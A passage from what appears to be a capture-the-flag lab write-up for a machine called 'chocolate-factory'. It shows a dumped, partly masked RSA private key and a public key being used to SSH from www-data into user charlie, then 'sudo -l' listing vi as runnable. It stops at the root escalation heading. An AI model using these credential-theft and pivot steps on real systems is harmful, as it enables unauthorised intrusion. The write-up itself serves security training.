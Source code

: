 ```
j4PM6/IIPw2jQ8WzUoi/JG7aXJnBE4bm53qo2B4oVu3PihZ7tKkLZq3Oclrrkbn2
EY0ndcECgYEA/29MMD3FEYcMCy+KQfEU2h9manqQmRMDDaBHkajq20KvGvnT1U/T
RcbPNBaQMoSj6YrVhvgy3xtEdEHHBJO5qnq8TsLaSovQZxDifaGTaLaWgswc0biF
uAKE2uKcpVCTSewbJyNewwTljhV9mMyn/piAtRlGXkzeyZ9/muZdtesCgYEA4idA
KuEj2FE7M+MM/+ZeiZvLjKSNbiYYUPuDcsoWYxQCp0q8HmtjyAQizKo6DlXIPCCQ
RZSvmU1T3nk9MoTg******************************QbvzIDa4Q2owpeHZL19
znQV98mrRaYDb5YsaEj0YoKfb8xhZJPyEb+v6+kCgYAZwE+vAVsvtCyrqARJN5PB
la7Oh0Kym+8P3Zu5fI0Iw8VBc/Q+KgkDnNJgzvGElkisD7oNHFKMmYQiMEtvE7GB
FVSMoCo/n67H5TTgM3zX7qhn0UoKfo7EiUR5iKUAKYpfxnTKUk+IW6ME2vfJgsBg
82DuYPjuItPHAdRselLyNwKBgH77Rv5Ml9HYGoPR0vTEpwRhI/N+WaMlZLXj4zTK
37MWAz9nqSTza31dRSTh1+NAq0OHjTpkeAx97L+YF5KMJToXMqTIDS+pgA3fRamv
ySQ9XJwpuSFFGdQb7co73ywT5QPdmgwYBlWxOKfMxVUcXybW/9FoQpmFipHsuBjb
Jq4xAoGBAIQnMPLpKqBk/ZV+HXmdJYSrf2MACWwL4pQO9bQUeta0rZA6iQwvLrkM
Qxg3lN2/1dnebKK5lEd2qFP1WLQUJqypo5******************************
G2QwOAGbsQHcI0P19XgHTOB7Dm69rP9j1wIRBOF7iGfwhWdi+vln
-----END RSA PRIVATE KEY-----

www-data@chocolate-factory:/home/charlie$ cat teleport.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDhp2s9zd********************************ENH6Cm5FbUDMvXYrfn8yLdXC2nQ1LCaVLuFrjL2y/aQ9e/yUU6YuLUVXaGqVA8vD+6ecQXBRsvgoGoF6YgN59XmnEyYKqqC4lciTOSUAhc1iF/EuvxwFL8cmiH/uqYuqsOhc2HBiMHfOCi/tFS2TXkm/XUPQi2zKvnim9iEJCB2iitTuXjYRklrIiiYcqifWOSh93X+hh84HCDPok6U0fWMUmjIhmDY6YSGdKNSW1n2ZLOZDK/czgA5FCjdl4tv7NudInJwQRFo5s+VvR1HLcqg3v2W352H6NKD90z9Nhh7kvj charlie@chocolate-factory
```

From the `teleport.pub` key, it is clear that this key is for user charlie. So, we can SSH into "charlie's" account using these credentials easily.

```
ww-data@chocolate-factory:/home/charlie$ ssh charlie@localhost -i teleport
Could not create directory '/var/www/.ssh'.
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:gd9u+ZN0RoEwz95lGsM97tRG/YPtIg9MwOxswHac8yM.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-115-generic x86_64)
charlie@chocolate-factory:/$ 
```

## Privilege Escalation to `root`

Now that we have access to the system as "charlie", the first thing that we can look at are the command that "charile" can run with `sudo`.

```bash
charlie@chocolate-factory:/$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```
